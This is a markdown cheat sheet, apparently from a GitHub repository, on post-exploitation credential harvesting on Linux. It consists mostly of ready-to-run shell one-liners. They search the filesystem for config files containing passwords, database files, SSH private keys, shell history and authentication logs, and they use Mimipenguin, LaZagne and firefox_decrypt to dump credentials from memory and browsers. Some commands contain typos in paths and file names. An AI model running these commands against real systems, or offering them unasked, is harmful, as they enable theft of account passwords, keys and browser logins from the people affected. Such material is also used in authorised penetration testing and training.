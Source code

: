 ### Resources that can provide us with credentials
- Configs
- Database
- Notes
- Scripts
- Source codes
- Cronjobs
- SSH Keys
- Logs
- Command-Line History
- Cache
- In-memory Processing
- Browser stored credtentials

### Configuration Files
```bash
# Find all configuration files in the system
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```
- Credentials in Configuration Files
```bash
# output to a file
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```

### Databases
```bash
# Find all db files in the systems
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

### Notes
```bash
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

### Scripts
```bash
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

### Cronjobs
```bash
cat /etc/crontab
ls -la /etc/cron.*/
```

### SSH Private Keys
```bash
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```

### SSH Public Keys
```bash
grep -rnm "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```

### History
```bash
tail -n5 /home/*/.bash*
```

### Logs
```bash
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

### Memory and Cache
- Memory - Mimipenguin
```bash 
sudo python3 mimipenguin.py

sudo bash mimipengui.sh
```

- Memory - LaZagne
```bash
sudo python3 laZagne.py all
```

### Browsers
- Firefox Stored Credentials
```bash
ls -l .mozilla/firefox/ | grep default

cat .mozilla/fire/$FILE.default*/logins.json | jq .
```

- Decrypte Firefox credentials
```bash
python3 firefox_decrypt.py
```

- Browsers - LaZagne
```bash
python3 laZagne.py browsers
```
